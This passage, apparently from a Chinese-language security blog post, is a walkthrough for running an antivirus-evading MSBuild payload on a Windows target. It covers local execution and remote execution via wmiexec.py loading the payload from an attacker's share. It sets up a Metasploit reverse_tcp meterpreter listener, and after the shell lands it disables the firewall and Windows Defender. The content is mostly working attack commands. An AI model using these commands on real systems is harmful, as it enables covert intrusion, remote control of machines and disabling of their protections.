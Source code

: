 ```
%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe <folder_path_here>\msbuild_nps.xml
```

2. 远程文件执行:

```
wmiexec.py <USER>:'<PASS>'@<RHOST> cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attackerip>\<share>\msbuild_nps.xml
```

我这里就用本地加载进行测试，先在`kali`上开启监听：

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.2
set LPORT 3333
set ExitOnSession false
exploit -j -z
```

![][6]

这里又有两个使用`msf`的小技巧:

- set ExitOnSession false 可以在接收到 seesion 后继续监听端口，保持侦听，也就是防止假 session
- exploit -j -z 可在后台持续监听,-j 为后台任务，-z 为持续监听，这样反弹一个 shell 就能接收一个

在目标机上执行本地加载免杀文件，在 msbuild_nps.xml 当前目录打开`cmd`，执行：

```
%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe msbuild_nps.xml
```

**这里的`cmd`需要以管理员权限执行，要不然进程里只有`user`用户的无法提权**

![][7]

可以看到，三件套杀毒软件都没有反应，成功免杀

由于`exploit`使用了`-j`选项，因此靶机上执行时可能过几秒`kali`上才会有反应

另外，如果`msf`显示了连接到`session`但是假死了，按下回车，再`sessions`打开查看就行了

然后我们`sessions -i 1`打开`session`走一遍渗透测试流程

## 常见渗透测试流程

### 安全措施

切换到`shell`关闭`windows defender`

```
shell
chcp 65001
关闭防火墙
netsh advfirewall set allprofiles state off
关闭windows defender
net stop windefend
```


[1]: https://mp.weixin.qq.com/s/XmSRgRUftMV3nmD1Gk0mvA
[2]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_172905.png
[3]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200130_215735.png
[4]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_121253.png
[5]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_102226.png
[6]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_121253.png
[7]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_181113.png
[8]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_142213.png
[9]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_142234.png
[10]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_142256.png
[11]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_133916.png
[12]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_134322.png
[13]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_134801.png
[14]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_134839.png
[15]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_135341.png
[16]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_164139.png
[17]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_164524.png
[18]: https://mp.weixin.qq.com/s/QXOmGCL8f2ISWAlYQ0mqPA